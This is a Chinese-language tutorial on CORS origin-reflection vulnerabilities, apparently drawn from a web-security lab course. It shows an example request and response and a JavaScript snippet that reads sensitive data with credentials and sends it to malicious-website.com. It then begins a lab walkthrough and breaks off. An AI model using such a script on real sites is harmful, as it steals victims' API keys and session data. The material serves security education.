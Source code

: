 
---


## 二、CORS配置问题导致的漏洞

> 
<h3>1、服务器生成ACAO头从客户端指定的原始标头</h3>
1、一些应用程序需要提供对许多其他域的访问。维护允许的域列表需要不断的努力，任何错误都有可能破坏功能。因此，一些应用程序采取了有效地允许来自任何其他域的访问的简单途径。
<hr/>
2、一种方法是从请求中阅读Origin头，并包含一个响应头，声明请求源是允许的
<pre><code>。例如，考虑接收以下请求的应用程序：
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...

响应如下：
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...

这些报头声明允许从请求域（malicious-website.com）进行访问，并且跨源请求可以包括Cookie（Access-Control-Allow-Credentials：true），因此将在会话中处理。</code></pre>
<br/>  
<hr/>
3、由于应用程序在Access-Control-Allow-Origin标头中反映任意来源，这意味着任何域都可以访问易受攻击域中的资源。如果响应包含任何敏感信息（如API密钥或CSRF令牌），可以通过在网站上放置以下脚本来检索此信息：
<pre><code>var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};</code></pre>
<hr/>
4、涉及实验：<br/> 实验1：具有基本原点反射的CORS脆弱性


---


> 
<h3>实验1：具有基本原点反射的CORS脆弱性</h3>
信息：
1、此网站具有不安全的CORS配置，因为它信任所有来源。
2、解决实验：编制一些JavaScript，使用CORS检索管理员的API密钥并将代码上载到漏洞利用服务器。并提交管理员的API密钥
3、已有账号：wiener:peter
<hr/>
part1:
登陆账号，查看历史记录并观察到密钥是通过AJAX请求/accountDetails检索的，并且响应包含Access-Control-Allow-Credentials标头，表明它可能支持CORS
